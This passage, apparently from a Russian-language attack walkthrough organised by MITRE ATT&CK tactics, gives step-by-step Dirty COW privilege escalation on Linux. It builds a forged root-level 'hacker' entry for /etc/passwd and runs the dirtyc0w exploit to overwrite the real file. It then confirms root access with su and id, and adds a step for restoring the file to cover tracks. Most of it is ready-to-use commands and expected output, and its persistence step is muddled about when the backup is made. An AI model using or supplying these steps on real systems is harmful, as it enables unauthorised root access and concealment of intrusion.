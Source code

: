 **Шаг 2: Создание вредоносного файла**  
```bash
# Генерация пароля (пароль: 123456)
openssl passwd -6 -salt xyz 123456
# Вывод: $6$xyz$d5rAS...snip...X1

# Формирование записи для /etc/passwd
echo 'hacker:$6$xyz$d5rAS...snip...X1:0:0::/root:/bin/bash' > /tmp/passwd
```
**Валидация:**  
```bash
stat -c "%a %n" /etc/passwd  # Должно быть 644
```

**Шаг 3: Запуск эксплоита**  
```bash
./dirtyc0w /etc/passwd /tmp/passwd
```
**Детали выполнения:**  
1. Эксплоит создает 2 потока с приоритетом `SCHED_FIFO` (максимальный приоритет).  
2. Среднее время эксплуатации: 5-60 секунд (зависит от нагрузки CPU).  
3. Сигнал успеха:  
   ```bash
   [+] Race won! /etc/passwd overwritten
   ```

---

##### [TA0002] – Execution  
```bash
# Аутентификация новым пользователем
su - hacker
Password: 123456  # Ввод пароля
```
**Проверка привилегий:**  
```bash
id
# uid=0(hacker) gid=0(root) groups=0(root)

# Проверка целостности файла
ls -l /etc/passwd
# -rw-r--r-- 1 root root ... /etc/passwd (файл выглядит нормально!)
```

---

##### [TA0003] – Persistence  
**Шаг 1: Восстановление файла**  
```bash
# Сохраняем оригинальную версию заранее
cp /etc/passwd /etc/passwd.bak

# После получения root восстанавливаем
mv /etc/passwd.bak /etc/passwd
```
